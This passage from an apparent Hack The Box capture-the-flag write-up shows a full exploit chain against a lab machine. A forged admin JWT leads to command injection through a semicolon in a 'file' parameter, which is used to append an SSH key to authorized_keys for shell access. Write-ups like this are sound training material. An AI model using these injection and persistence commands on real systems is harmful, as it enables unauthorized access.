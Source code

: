 I used the new generated token to access the `/api/priv/` to check if my privileges.

```bash
curl -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDAyYmM3MmYyZDA0MjliOWJkZGEiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3RlckBnbWFpbC5jb20iLCJpYXQiOjE2NDgyOTYwMDJ9.tNBzeujobI1bXtimhaR_-hBcaBVVKf1Y6-G1CK9AVeM' http://10.10.11.120/api/priv

```

And it worked. Got the admin role.

Let's exploit the command injection vulnerability that I talked about. I used curl to access the `/api/log` and provided index.js as file then inserted semi-colon to end the git command and added id at the end. This curl command summarizes the request.

```bash
curl -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDAyYmM3MmYyZDA0MjliOWJkZGEiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3RlckBnbWFpbC5jb20iLCJpYXQiOjE2NDgyOTYwMDJ9.tNBzeujobI1bXtimhaR_-hBcaBVVKf1Y6-G1CK9AVeM' -G --url-encoded "file=index.js;id" http://10.10.11.120/api/log
```

The part of this response that we needed is:

```
uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)
```

We are sure now that the username is `dasith`.
In the reconnaissance phase, we knew that there is an SSH server. Let's use it login as dasith.
First of all, I generated new SSH key using the following command:

```bash
ssh-keygen -t rsa -b 4096 -f secret-box
```

Then, I exported the public key in an environment variable. using the export command

```bash
export KEY=$(cat secret-box.pub)
```

Next step is adding my public ssh key to the authorized keys so I could login

```bash
curl -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDAyYmM3MmYyZDA0MjliOWJkZGEiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3RlckBnbWFpbC5jb20iLCJpYXQiOjE2NDgyOTYwMDJ9.tNBzeujobI1bXtimhaR_-hBcaBVVKf1Y6-G1CK9AVeM' -G --url-encoded "file=index.js; mkdir -p /home/dasith/.ssh; echo $KEY >> /home/dasith/.ssh/authorized_keys"  http://10.10.11.120/api/log
```

Let's login using SSH and the `dasith` username.

```bash
ssh -i secret-box dasith@10.10.11.120
```

After logged in successfully, I executed to following command to get the user flag. Then I copied this flag and submitted it in Hack The Box.

```bash
cat user.txt
```
